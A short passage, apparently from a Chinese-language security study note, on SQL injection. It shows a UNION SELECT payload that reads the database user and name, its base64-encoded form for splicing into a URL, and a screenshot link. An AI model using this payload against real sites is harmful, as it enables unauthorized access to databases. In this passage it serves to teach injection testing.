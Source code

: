 先加密，之后把加密后的注入语句拼接到url当中：

```sql
3' union select 1,2,3,user(),database(),6 and '1'='1
经过base64编码加密后为：
MycgdW5pb24gc2VsZWN0IDEsMiwzLHVzZXIoKSxkYXRhYmFzZSgpLDYgYW5kICcxJz0nMQ==
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4516.png)
